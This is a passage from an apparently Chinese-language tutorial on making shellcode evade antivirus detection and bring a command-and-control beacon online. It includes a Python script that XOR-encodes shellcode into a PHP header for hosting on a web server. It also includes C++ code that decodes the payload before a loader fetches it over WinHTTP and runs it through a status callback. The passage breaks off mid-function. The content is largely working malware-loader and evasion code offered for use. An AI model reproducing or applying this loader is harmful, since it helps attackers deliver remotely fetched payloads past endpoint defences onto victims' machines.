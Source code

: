
这两个api就相当于python爬虫读取数据一样，我们也可以把shellcode放进shellcode.txt里，在放到网站上，利用这两个api读取，最后回调函数执行

## shellcode免杀上线

效果如下  
![](https://gitee.com/fuli009/images/raw/master/public/20221005121453.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221005121454.png)

shellcode加密解密：  
这里依然是沿用我上一篇文章加密解密方式，师傅们可以去看看我上一篇文章,地址https://forum.butian.net/share/1848  
这里我不在说了

shellcode加载  
这里用上面讲的WinHttpSetStatusCallback这个api

加密代码：  
encode.py

    
    
    shellcode = b""  
    str_=""  
    for i in shellcode:  
        code=(i^1024)+1024  
        str_+=str(code)  
    with open("ii.php","w") as f:  
        f.write(f'<?php header("sc:{str_}");?>')  
    print("ok")  
      
    

运行后会生成一个ii.php文件

    
    
    <?php header("sc:加密后的shellcode");?>  
    

解密和shellcode加载代码：

    
    
    DWORD LoadSc(char* EncodeBuffer) {  
        char buf[6000];  
        strcpy(buf, EncodeBuffer);  
        delete[] EncodeBuffer;  
        char cd[10];  
        char code;  
        string buf_2 = buf;  
        int num = 0,cnum = 0;  
        int num_ = num + 4;  
        for (int i = 0; i < sizeof(buf); i++) {  
            if (buf[i] != (char)'\x0') {  
                string str = buf_2.substr(num, num_);  
                if (str.length() < 4) {  
                    break;  
                }  
                str.copy(cd, 4, 0);  
                code = (char)(atoi(cd) - 1024) ^ 1024;  
                buf[cnum] = code;  
                cnum++;  
                num_ += 4;  
                num += 4;  
            }  
            else {  
                break;  
            }  
        }  
        DWORD Old = 0;  
